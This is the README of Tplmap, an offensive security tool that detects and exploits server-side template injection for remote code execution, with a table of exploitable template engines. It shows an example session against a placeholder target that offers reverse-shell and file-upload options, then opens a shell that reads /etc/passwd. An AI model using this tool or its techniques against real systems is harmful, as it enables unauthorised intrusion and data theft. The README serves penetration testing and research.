 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

    [+] Testing if GET parameter 'inj' is injectable
    [+] Smarty plugin is testing rendering with tag '{*}'
    [+] Mako plugin is testing rendering with tag '${*}'
    [+] Jinja2 plugin is testing rendering with tag '{{*}}'
    [+] Twig plugin is testing rendering with tag '{{*}}'
    [+] Freemarker plugin is testing rendering with tag '${*}'
    [+] Jade plugin is testing rendering with tag '\n= *\n'
    [+] Nunjucks plugin is testing rendering with tag '{{*}}'
    [+] Nunjucks plugin is testing blind injection
    [+] Nunjucks plugin has confirmed blind injection
    [+] Tplmap identified the following injection point:

      GET parameter: id
      Engine: Nunjucks
      Injection: blind
      Context: text
      OS: undetected
      Technique: blind
      Capabilities:

       Shell command execution: yes (blind)
       Bind and reverse shell: yes
       File write: yes (blind)
       File read: no
       Code evaluation: no

    [+] Rerun tplmap providing one of the following options:

        --os-shell			Run shell on the target
        --os-cmd			Execute shell commands
        --bind-shell PORT		Connect to a shell bind to a target port
        --reverse-shell HOST PORT	Send a shell back to the attacker's port
        --upload LOCAL REMOTE	Upload files to the server
                          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell

[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Python (generic)     |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| doT                  |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Marko                |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| PHP (generic)        |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
